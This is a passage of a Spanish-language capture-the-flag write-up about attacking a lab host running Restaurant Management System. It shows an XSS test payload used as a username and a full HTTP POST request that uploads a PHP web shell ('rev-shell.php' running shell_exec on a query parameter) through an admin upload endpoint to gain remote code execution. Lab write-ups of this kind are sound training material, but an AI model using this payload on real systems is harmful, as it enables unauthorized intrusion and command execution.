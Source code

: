 - Inspeccioné la página lo más que pude, pero no encontré nada más que un `XSS` en el registro de sesión.
- Creé un usuario con nombre `<script>alert("xss")</script>` y credenciales `test@test.com:12345`:

![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/86bb1f76-fdc1-4568-b02c-74947331f9b4)

- Pero bueno, la página usa un CMS llamado `Restaurant Management System`, investigué sobre `rms exploit` y encontré algo interesante.
- Es una [RCE](https://www.exploit-db.com/exploits/47520) que se aprovecha de solicitudes POST para subir un archivo remoto a una dirección en especifico y ejecutar un comando a través de este mismo, derivando de una `RFI` a `RCE`.
- Podemos replicarlo con burpsuite o bien, hacer uso del exploit.
- La solicitud quedaría algo así:

~~~http
POST /rms/admin/foods-exec.php HTTP/1.1

Host: 10.10.55.120:12340

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Length: 336

Content-Type: multipart/form-data; boundary=---------------------------191691572411478

Connection: close

Referer: http://localhost:8081/rms/admin/foods.php

Cookie: PHPSESSID=4cvgeeheft3chvrnv81vusk3g3

Upgrade-Insecure-Requests: 1



-----------------------------191691572411478

Content-Disposition: form-data; name="photo"; filename="rev-shell.php"

Content-Type: text/html



<?php echo shell_exec($_GET["cmd"]); ?>

-----------------------------191691572411478

Content-Disposition: form-data; name="Submit"



Add

-----------------------------191691572411478--
~~~
